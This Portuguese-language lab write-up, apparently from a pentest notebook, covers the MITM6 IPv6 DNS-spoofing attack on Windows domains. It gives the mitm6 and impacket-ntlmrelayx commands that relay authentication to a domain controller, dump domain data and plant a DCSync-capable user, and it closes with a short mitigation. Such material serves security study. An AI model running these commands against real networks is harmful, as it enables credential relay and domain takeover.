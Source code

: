 # MITM6

### Definição

Na instalação de um sistema operativo _Windows_ por defeito temos no interface de rede o protocolo IPV6 activo, devido a isso existe trafego por IPV6 para a rede. Um exemplo pratico são as queries DNS que saem por IPV6, como normalmente o nosso servidor DNS não responde a IPV6 podemos-nos colocar como um servidor DNS malicioso que irá escutar todos os pedidos e aceder aos pedidos de autenticação, sejam eles por exemplo LDAP ou SMB.

### Cenário

### Exploração (PoC)

iniciamos o nosso _listner_ IPV6 e fazemos relay para o nosso controlador de dominio.

```
mitm6 -d insecure.local
```

![](../../.gitbook/assets/runmimt6.png)

```
sudo impacket-ntlmrelayx -6 -t ldaps://192.168.0.100 -wh fakewpad.insecure.local -l lab/labad/lootme
```

![](../../.gitbook/assets/runntlmrelayx.png)

Após um login ou uma máquina ficar activa verificamos que o trafego IPV6 é _relayed_ para o nosso controlador de dominio, desta forma ficamos com muita informação sobre o dominio.

![](../../.gitbook/assets/runntlmrelayxnonpriv.png)

![](../../.gitbook/assets/info.png)

Ao abrirmos estes ficheiros ficamos com muita informação do dominio, podendo-se verificar que utilizadores existem e a que grupos pertencem,

![](../../.gitbook/assets/info2.png)

**Caso algum administrador de dominio** faça login é criado um user de forma automática com permissões de DCSync o que nos permitirá evoluir para outro tipo de exploração.

![](../../.gitbook/assets/runntlmrelayxpriv.png)

![](../../.gitbook/assets/aduser.png)

## Mitigação

Devemos desabilitar por GPO a aplicação das configurações IPV6 na nossa organização, caso não esteja em uso.
